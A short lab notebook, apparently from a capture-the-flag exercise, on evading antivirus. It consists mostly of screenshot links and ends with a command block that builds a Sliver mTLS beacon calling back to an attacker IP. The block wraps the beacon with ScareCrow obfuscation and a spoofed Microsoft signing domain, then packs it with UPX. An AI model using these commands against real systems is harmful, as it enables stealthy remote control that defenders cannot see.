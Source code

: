 - Finish my gurl project add:
	- do not remove line
	- `-v` exclude option

#### Let the AV arms race commence 

Attempt 1 

![](attemptone-src.png)
![](upxtherevC.png)
![](compiledproof-somedebugfixed.png)
![](attempt1-basicshellcode.png)
![](narcissismisalwaysbad.png)



![](PROGRESS.png)

Double checking with
![](puttybadbecause2yearsagoitwasbadbuthey.png)



![](tearsthatarerelevant.png)

![](defensesagain.png)

- Ideas 
	- Download Relevant's `C:\Windows\System32\kernel32.dll`


And with a great name!
![](ExcelIsTheMathematicalDockWhatAName.png)

Run Seatbelt for late and check that this actually is not just a rug pull. Interactive broke. Not sure if it was seatbelt.
![](atleast2minstesting-interactive-broke.png)

```
generate beacon --mtls  10.11.3.193:445 --arch amd64 --os windows --save /tmp/445-sliver.bin -f shellcode -G

/opt/ScareCrow/ScareCrow -I /tmp/445-sliver.bin -Loader binary -domain microsoft.com -obfu -Evasion KnownDLL 
# Build with golang
GOOS=windows GOARCH=amd64 go build -ldflags="-s -w"
# Pack with upx
upx $file.exe

```

#### Could not manage to execute the exact same thing
